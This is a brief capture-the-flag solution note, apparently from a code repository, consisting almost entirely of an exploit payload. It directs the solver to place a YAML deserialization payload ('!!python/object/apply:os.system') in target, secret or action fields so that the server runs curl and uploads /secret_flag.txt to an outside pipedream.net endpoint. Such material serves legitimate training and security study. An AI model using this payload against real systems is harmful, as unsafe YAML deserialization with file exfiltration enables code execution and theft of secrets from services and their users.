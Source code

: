 # EXAMPLE SOLUTION
just rewrite either target, secret or action fields with something like the below 
!!python/object/apply:os.system ["curl -H \"Content-Type: multipart/form-data\" -F \"data=@/secret_flag.txt\" https://en0cwb3tj2qaiu.x.pipedream.net/"]
